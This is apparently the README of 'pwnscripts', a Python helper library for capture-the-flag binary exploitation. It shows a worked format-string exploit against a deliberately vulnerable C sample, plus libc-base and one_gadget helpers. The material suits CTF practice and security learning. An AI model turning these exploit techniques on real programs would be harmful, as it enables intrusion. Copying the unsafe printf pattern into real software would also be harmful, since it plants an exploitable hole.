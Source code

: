 # pwnscripts
Very simple script(s) to hasten binary exploit creation. To use, replace `from pwn import *` with `from pwnscripts import *`, e.g.

```python
from pwnscripts import *
context.binary = './my_challenge'
...
```

It's messy and it works. Current features:
  * `find_printf_offset_*`: helper functions to bruteforce wanted printf offsets. Important ones:
    1. _buffer: find the offset to whatever's manipulating the input format string. A common example:
    2. _libc/_PIE: find a libc/PIE address with a specific offset
    ```python
    '''Imagine a C program like the following:
    #include <stdio.h>
    #include <string.h>
    void win() { puts("great job"); }
    int main() {
        char s[64];
        memset(s, 0, 64);
        printf("%p\n", s);
        fgets(s, 50, stdin);
        printf(s);
        if (*(int*)(s+56) == 0x12345678) win();
    } // gcc main.c -o main.o'''
    from pwnscripts import *
    context.binary = 'main.o'
    def printf(l: str): # First, a function to abstract out the printf() i/o for pwnscripts
        r = remote(...)
        r.sendafter('\n', l)
        return r.recvline()
    # Let's say we want to write to s[56]. We first find the printf() offset to s[]:
    offset = find_printf_offset_buffer(printf)
    # Then we use pwntools' fmtstr_payload to proceed:
    r = remote(...)
    addr = extract_first_hex(r.recvline())  #another pwnscripts func
    payload = fmtstr_payload(offset, {addr+56: 0x12345678}, write_size='short')
    r.sendline(payload)
    r.interactive()
    ```
  * `libc_db`: a basic class for dealing with the libc-database project
    ```python
    db = libc_db('/path/to/libc-database', '<libc_id>') # e.g. libc6_2.27-3ubuntu1.2_amd64
    one_gadget = db.select_gadget() # Console will prompt for a selection. Behaviour may change.
    ... <insert exploit code to leak libc address here> ...
    # Let's say the libc address of `puts` was leaked as `libc_puts`
    libc_base = db.calc_base('puts', libc_puts)
    ```
  * `extract_(all|first)_hex`: simple wrapper for a hex value regex

## I tried using it; it doesn't work!

File in an [issue](https://github.com/152334H/pwnscripts/issues), if you can. With a userbase of 1, it's hard to guess what might go wrong, but potentially:
 * The software is broken
 * Python is outdated
 * The challenge is neither i386 or amd64; other architectures aren't implemented (yet).
 * The challenge is amd64, but `context.arch` wasn't set to `amd64`

     * Set `context.binary` appropriately, or set `context.arch` manually if no binary is given
 * The printf offset bruteforcing range is insufficient

     * Overwrite `PWNSCRIPT_PRINTF_MAX` with an appropriate value.

 * The printf offset lies on an unaligned boundary. Some challenges are designed this way; workaround planned.

## Updates

20-08

Added a wrapper object for libc-database: the `libc_db` object. This is mostly a reinvention of tools like `LibcSearcher`, although I have yet to see another project tack on `one_gadget` searching, which is a (hacky) feature added for `libc_db`.

Minor adjustments to *printf*. Logging is suppressed for offset bruteforcing; new feature to make a leak payload.

Extended readme.

20-06

Added module packaging stuff, so that `pip install -e .` works

You can now see a test example of this library in `test.py`.

Gradual updates expected as I continue to do pwn.
